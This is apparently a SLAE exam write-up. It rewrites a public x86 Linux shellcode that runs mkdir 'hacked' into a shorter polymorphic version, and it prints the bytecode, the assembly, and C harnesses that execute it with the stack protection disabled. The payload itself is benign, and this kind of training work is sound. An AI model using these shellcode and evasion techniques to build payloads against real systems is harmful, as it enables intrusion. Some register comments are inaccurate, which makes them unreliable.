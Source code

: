 # Mkdir

<p style="text-align: justify;">Address of the original shellcode:</p>
- [http://shell-storm.org/shellcode/files/shellcode-542.php](http://shell-storm.org/shellcode/files/shellcode-542.php)

Original source code:
```c


The comment in that file is not correct.. I cut and pasted the shell code
in an existing c source and forgot to adjust it..

/*
 * This shellcode will do a mkdir() of 'hacked' and then an exit()
 * Written by zillion@safemode.org
 *
 */

char shellcode[]=
        "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed"
        "\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68"
        "\x61\x63\x6b\x65\x64\x23";


void main()
{

  int *ret;
  ret = (int *)&ret + 2;
  (*ret) = (int)shellcode;
}
```
To illustrate the appearance of the NASM code of the above shellcode, we will use the ndisaasm command.
```nasm
$ echo -ne "\xeb\x16\x5e\x31\xc0\x88\x46\x06\xb0\x27\x8d\x1e\x66\xb9\xed\x01\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x23" | ndisasm -u -

00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
00000018  E8E5FFFFFF        call dword 0x2
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
<p style="text-align: justify;">I will try to present my polymorphic shellcode in parts (and finally the whole) in order to explain in detail the changes and improvements I have made.</p>

### sys_mkdir()

Original code:
```nasm
00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
[..]
00000018  E8E5FFFFFF        call dword 0x2        <--- Everything from here means "Push 'hacked#' on top of the stack
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
Code after changes:
```nasm
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	    ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
```
<p style="text-align: justify;">As we can see, I gave up the JMP-CALL-POP technique in favor of placing a string with the name of the created folder on the stack with a null being a string terminator. This trick allowed to save up to 8 bytes!
</p>

### sys_exit()

Original code:
```nasm
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
```
Code after changes:
```nasm
  	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```
<p style="text-align: justify;">Only one line has been changed - the ADD instruction was used instead of the MOV instruction.
</p>

### Full code after changes

```nasm
; Filename: 	mkdir.nasm
; Author:   	Jakub Heba
; Purpose:	  SLAE Course & Exam

global _start			

section .text
_start:
	xor eax, eax        ; Clear the EAX register
	add al, 0x27        ; EAX contains the mkdir () system call identifier
	push edi            ; string terminator
	push word 0x6465    ; 'ed' in reverse
	push 0x6b636168     ; 'hack' in reverse
	mov ebx, esp        ; The ECX register contains the address of the arguments on the stack
	mov cx, 0x1ed	      ; file mode, hex(1ed) = dec(493) = oct(755)
	int 0x80            ; Execute system call
	add al,0x1          ; EAX = 0, so let's make it 1
	xor ebx, ebx        ; EBX should be 0
	int 0x80            ; Execute exit() syscall
```

### Compiling and Execution

```sh
$ ./compile.sh mkdir
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80"
```
<p style="text-align: justify;">Shellcode.c wrapper file content:</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x04\x27\x57\x66\x68\x65\x64\x68\x68\x61\x63\x6b\x89\xe3\x66\xb9\xed\x01\xcd\x80\x04\x01\x31\xdb\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Execution:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ls
compile.sh  shellcode  shellcode.c  template  template.nasm  template.o

$ ./shellcode 
Shellcode Length:  28

$ ls -la
total 44
drwxrwxr-x 3 slae slae 4096 Mar 30 12:45 .
drwxrwxr-x 5 slae slae 4096 Mar 25 05:33 ..
-rwxrwxr-x 1 slae slae  310 Mar 25 13:41 compile.sh
-rw------- 1 slae slae  710 Mar 25 16:00 .gdb_history
drwxr-xr-x 2 root root 4096 Mar 30 12:45 hacked           <------
-rwxr-xr-x 1 root root 7462 Mar 30 12:44 shellcode
-rw-rw-r-- 1 slae slae  287 Mar 30 12:43 shellcode.c
-rwxr-xr-x 1 root root  534 Mar 30 12:43 template
-rw-rw-r-- 1 slae slae  232 Mar 25 16:05 template.nasm
-rw-rw-r-- 1 slae slae  448 Mar 30 12:43 template.o
```

### Summary

Original shellcode length:

- **36 bytes**

Length of polymorphic shellcode:

- **28 bytes**

Difference in length:

- **~22% shorter!**

### Pwned.
